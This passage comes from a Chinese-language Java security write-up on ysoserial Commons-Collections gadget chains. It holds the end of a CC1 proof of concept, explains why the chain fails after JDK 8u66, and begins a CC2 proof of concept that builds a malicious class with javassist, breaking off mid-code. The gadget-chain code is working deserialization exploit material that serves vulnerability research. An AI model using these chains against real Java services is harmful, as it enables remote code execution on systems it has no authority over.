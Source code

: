         ChainedTransformer chainedTransformer = new ChainedTransformer(trueTransformer);
        HashMap<Object, Object> hashMap = new HashMap<>();
        hashMap.put("value","test");
        Map evalMap = TransformedMap.decorate(hashMap, null, chainedTransformer);
        Class<?> clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor = clazz.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) constructor.newInstance(Retention.class, evalMap);
        // 序列化和反序列化测试
        SerialUtil.runPayload(handler);
    }

调用栈如下：

![P神CC1链][p7]

为啥JDK8u66之后的版本没法打了，查看AnnotationInvocationHandler类代码的变化，分析如下所示：

![AnnotationInvocationHandler代码变化][p8]

可以看到，更新后的代码中，如果使用P神的链，readObject中也不再调用TransformMap#set()方法了，所以P神的链也不能用。

### CC2
先直接给出POC和分析：

	package com.pinger.javasec.ysoserial;
	
	import com.pinger.javasec.util.SerialUtil;
	import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
	import javassist.ClassClassPath;
	import javassist.ClassPool;
	import javassist.CtClass;
	import org.apache.commons.collections4.comparators.TransformingComparator;
	import org.apache.commons.collections4.functors.InvokerTransformer;
	import java.lang.reflect.Field;
	import java.util.PriorityQueue;
	
	/**
	 * @author : p1n93r
	 * @date : 2021/4/1 15:38
	 * CC2 Gadget研究
	 * CC2只对Commons-Collections4有效，3中TransformingComparator没实现序列化接口，无法序列化
	 */
	public class CC2 {
	
	    /**
	     * 需要一个空类作为javassist的模板
	     */
	    public static class Placeholder {}
	
	    public static Object getPayload() throws Exception{
	        String abstractTransletClassPath = "com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet";
	
	        // 使用javassist生成一个恶意的类
	        ClassPool classPool = ClassPool.getDefault();
	        classPool.insertClassPath(new ClassClassPath(Placeholder.class));
	        classPool.insertClassPath(new ClassClassPath(Class.forName(abstractTransletClassPath)));
	